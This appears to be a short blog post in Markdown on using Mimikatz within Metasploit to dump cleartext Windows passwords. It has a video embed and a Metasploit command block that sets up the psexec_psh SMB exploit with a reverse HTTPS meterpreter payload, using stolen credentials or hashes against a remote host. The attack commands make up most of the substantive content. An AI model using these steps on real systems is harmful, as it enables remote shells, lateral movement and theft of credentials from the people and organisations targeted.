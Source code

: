 ```yaml
---
layout: post
title: "Mimikatz"
subtitle: "Dumping clear text passwords."
date: 2016-08-11
background: '/PATH_TO_IMAGE'
---
```


# Mikatz - Dumping clear text passwords

## This video will show you how to dump clear text passwords using the mimikatz post module within Metasploit.


<video width="720" height="405" autoplay controls  poster="">
	<source src="http://s1.webmshare.com/Vz1aj.webm" type="video/webm">
	Your browser does not support the video tag or the file format of this video. <a href="http://www.webestools.com/">http://www.webestools.com/</a>
</video>
#####
```bash
use exploit/windows/smb/psexec_psh
set payload windows/meterpreter/reverse_https
set smbuser <username>
set smbpass <password/hash>
set smbdomain <domain>
set RHOST <remote-ip>
set LHOST <local-machine>
```
